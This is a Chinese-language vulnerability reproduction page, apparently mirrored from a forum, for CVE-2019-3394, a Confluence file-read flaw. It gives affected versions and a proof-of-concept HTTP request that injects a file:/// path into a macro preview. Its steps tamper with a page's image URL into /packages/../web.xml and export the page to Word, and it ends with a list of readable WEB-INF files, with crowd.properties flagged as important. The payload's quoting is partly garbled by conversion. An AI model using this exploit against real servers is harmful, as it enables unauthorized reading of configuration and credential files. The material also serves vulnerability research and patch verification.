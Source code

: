 # （CVE-2019-3394）Confluence 文件读取漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2855](https://www.zhihuifly.com/t/topic/2855)

# （CVE-2019-3394）Confluence 文件读取漏洞

## 一、漏洞简介

> （CVE-2019-3394）Confluence 文件读取漏洞

## 二、影响范围

*   6.1.0 <= version < 6.6.16
*   6.7.0 <= version < 6.13.7
*   6.14.0 <= version < 6.15.8

## 三、复现过程

#### poc

```
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close `{“contentId”:“1”,“macro”:{“name”:“widget”,“params”: {“url”:“[https://www.viddler.com/v/test",“width”:“1000”,“height”:“1000”,"_templat](https://www.viddler.com/v/test%22,%22width%22:%221000%22,%22height%22:%221000%22,%22_templat) e”:“file:///C:/Windows/win.ini”},“body”:""}}` 
```

#### 触发条件

1.  一个有效的登录账号
2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![image](img/7dec71d3ebc5cc1d83a404a471ffb758.png)

2.插入一张网络图片

![image](img/3a53e4164bec2ba73b472b1ba08963ab.png)

![image](img/e701ec80ee32ecca75bca5c846ed7877.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![image](img/26d1dde19ee727d0da357868dd41fdd3.png)

5.查看页面源码确认修改成功

![image](img/02fa5e59e27458332f59cf591e6aeeb6.png)

6.导出word，并抓包查看

![image](img/ce79e7a00cbb9860b906cbc0f43ccdd9.png)

![image](img/f5a083edf54a79b3b71b37b0365a643e.png)

#### 路径说明

由于 `catalina.jar`中的 `org.apache.catalina.webresources.StandardRoot.class`的 getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在 `/WEB-INF`下

可读取的文件大致如下

```
#WEB-INF下
decorators.xml
glue-config.xml
server-config.wsdd
sitemesh.xml
urlrewrite.xml
web.xml
#/WEB-INF/classes下
confluence-filtered-frames.properties
confluence-init.properties
crowd.properties(较为重要)
hash-registry.properties
lgplTemplate.soy
log4j-diagnostic.properties
log4j.properties
logging.properties
mime.types
osuser.xml
seraph-config.xml
seraph-paths.xml
velocity_implicit.vm
velocity.properties 
```
